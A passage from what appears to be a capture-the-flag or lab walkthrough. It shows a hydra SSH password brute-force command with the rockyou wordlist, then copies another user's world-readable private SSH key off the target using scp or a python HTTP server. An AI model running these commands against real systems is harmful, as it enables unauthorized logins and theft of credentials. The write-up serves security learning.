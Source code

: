 
### Brute force in

We can use `hydra` to brute-force logins.

```shell
hydra -t 64 -l [REDACTED] -P ~/wordlists/rockyou.txt ssh://$IP
```

`-t` as before, how many tasks running concurrently

`-l` fixed username, not a wordlist (`-L` for a wordlist)

`-P` password list, not static password (`-p` for static password)

`rockyou.txt` the standard password dictionary that comes with kali

`ssh://$IP` the target

Waiting a few seconds [REDACTED] user's password is found! We can now `ssh` into the system.

---

### Horizontal Escalation

We're now in the box but are limited by our permissions on it and we don't have anything that really catches our eye in our home directory.
We can `cd` into the other user's home directory and spot a `pass.bak` that is not readable to us (yet).
However in listing the files, I quickly notice that [REDACTED]'s `.ssh` is readable by everyone. Navigating into that directory reveals that his `id_rsa` is readable by everyone and so is his `authorized_keys`

```
drwxr-xr-x 2 [REDACTED]  [REDACTED] 4096 Apr 23  2018 .ssh

---

-rw-rw-r-- 1 [REDACTED] [REDACTED]  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 [REDACTED] [REDACTED] 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 [REDACTED] [REDACTED]  771 Apr 19  2018 id_rsa.pub
```

All we have to do is `scp` or `wget` that file to ourselves (I do not recommend `cat`ing it and copying)
To `scp` the file we do the following:

```shell
scp [REDACTED]@$IP:/home/[REDACTED]/.ssh/id_rsa .
```

Or to use `python`

On the victim

```shell
cd /home/[REDACTED]/.ssh && python3 -m http.server 9999
```

And then on our machine
